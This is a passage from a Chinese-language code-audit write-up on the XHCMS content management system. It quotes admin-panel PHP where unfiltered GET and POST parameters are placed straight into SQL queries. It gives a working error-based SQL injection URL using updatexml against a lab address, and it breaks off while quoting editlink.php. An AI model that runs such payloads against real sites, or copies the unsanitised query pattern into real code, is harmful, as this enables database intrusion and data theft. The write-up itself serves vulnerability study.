 这是一个后台的链接界面,我们先登陆进后台,然后去包含这个文件

```
http://192.168.121.130/xhcms/admin/?r=editcolumn
```

其实这个文件夹下的所有文件都需要这么去使用

跳转到了如下界面

![image-20210923121310956](/Users/DawnT0wn/Library/Application Support/typora-user-images/image-20210923121310956.png)

关键代码

```
$id=$_GET['id'];
$type=$_GET['type'];
if ($type==1){
$query = "SELECT * FROM nav WHERE id='$id'";
$resul = mysql_query($query) or die('SQL语句有误：'.mysql_error());
$nav = mysql_fetch_array($resul);
}
if ($type==2){
$query = "SELECT * FROM navclass WHERE id='$id'";
$resul = mysql_query($query) or die('SQL语句有误：'.mysql_error());
$nav = mysql_fetch_array($resul);
}
$save=$_POST['save'];
$name=$_POST['name'];
$keywords=$_POST['keywords'];
$description=$_POST['description'];
$px=$_POST['px'];
$xs=$_POST['xs'];		//变量由POST直接得到，未做过滤
```

sql语句都差不多,就是单引号闭合而已,主要看参数

这里需要传参type和id参数,type为一或者为2都可以

```
http://192.168.121.130/xhcms/admin/?r=editcolumn&type=2&id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+
```

![image-20210923231507005](/Users/DawnT0wn/Library/Application Support/typora-user-images/image-20210923231507005.png)

当然控制type参数还可以进入下面的update语句,一样可以去执行语句

### /admin/files/editlink.php

```
<?php
require '../inc/checklogin.php';
require '../inc/conn.php';
$linklistopen='class="open"';
$id=$_GET['id'];
$query = "SELECT * FROM link WHERE id='$id'";
$resul = mysql_query($query) or die('SQL语句有误：'.mysql_error());
$link = mysql_fetch_array($resul);

$save=$_POST['save'];
$name=$_POST['name'];
$url=$_POST['url'];
$mail=$_POST['mail'];
$jieshao=$_POST['jieshao'];
$xs=$_POST['xs'];
if ($xs==""){
$xs=1;	
	}
```